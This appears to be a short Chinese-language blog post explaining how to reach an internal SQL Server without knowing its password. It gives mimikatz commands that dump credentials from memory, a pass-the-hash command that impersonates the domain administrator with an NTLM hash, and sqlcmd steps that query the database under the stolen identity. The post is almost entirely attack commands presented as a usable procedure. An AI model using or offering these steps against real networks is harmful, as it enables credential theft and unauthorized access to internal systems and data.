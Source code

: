 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:     内网sqlserver无需密码链接 				# 标题 
subtitle:   内网sqlserver无需密码链接
date:       2025-05-07 				# 时间
author:     appleszk 						# 作者
header-img: img/【哲风壁纸】动漫-动漫美女.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - mimikatz
    - sqlserver
    - hash传递
---
```

# 内网sqlserver无需密码链接

情况介绍:当你在内网获取了hash，但是想要链接sqlserver不知道密码时候，sqlserver有一个windows身份验证的功能，此时可以使用这个步骤

## 如何使用

### 使用mimikatz获取hash

```
privilege::debug
sekurlsa::logonpasswords
```

### hash传递攻击

```
privilege::debug  //首先要提权，先前提过而不需要再提权
sekurlsa::pth /user:administrator /domain:gon /ntlm:ad5a870327cddcb947af6a94a4c23
```

当此命令正确输入后就会弹出一个cmd
在命令提示符下，你可以使用 sqlcmd 工具，这是 Microsoft SQL Server 自带的命令行工具。

```
sqlcmd -S your_server_name -d your_database_name -E
```

```
SELECT * FROM your_table_name;
```
